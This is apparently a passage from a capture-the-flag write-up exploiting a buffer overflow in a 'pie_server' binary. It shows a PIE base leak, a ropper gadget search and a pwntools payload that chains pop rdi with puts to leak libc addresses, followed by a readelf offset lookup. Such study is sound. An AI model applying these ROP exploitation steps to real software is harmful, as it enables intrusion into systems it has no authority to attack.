 ```
[*] Leaked <main>: 0x5555555551f8
[*] PIE base: 0x555555554000
```


> **Note**: `REMOTE PIE BASE` =  `KNOWN FUNCTION` - `OFFSET`.

```
$ ropper --file pie_server --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: pie_server
0x00000000000012ab: pop rdi; ret;
```

Next step is to execute a BOF in order to leak a function address of the GOT. In that case with the function puts called on the program we can print the value of address of puts on the global offset table.

We can specify the function address in the return to execute another time the vulnerable function.

```python
# Retrieving LIBC address
# - BOF
padding = 264
pop_rdi = elf.address + 0x12ab

payload = flat(
  padding * b'A',
  pop_rdi,
  elf.got.puts,
  elf.plt.puts,
  elf.symbols.vuln
)

io.sendlineafter(b':P', payload)
io.recvlines(2)
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("GOT Puts: %#x", got_puts)
```
```
[*] Leaked <main>: 0x5555555551f8
[*] PIE base: 0x555555554000
[*] GOT Puts: 0x7ffff7e3c820
```

Next step is to obtain the libc base address. Knowing the libc library used and knowing the address of the put function, we can calculate the offset.

```
$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep puts
   230: 0000000000077820   405 FUNC    WEAK   DEFAULT   16 puts@@GLIBC_2.2.5
```
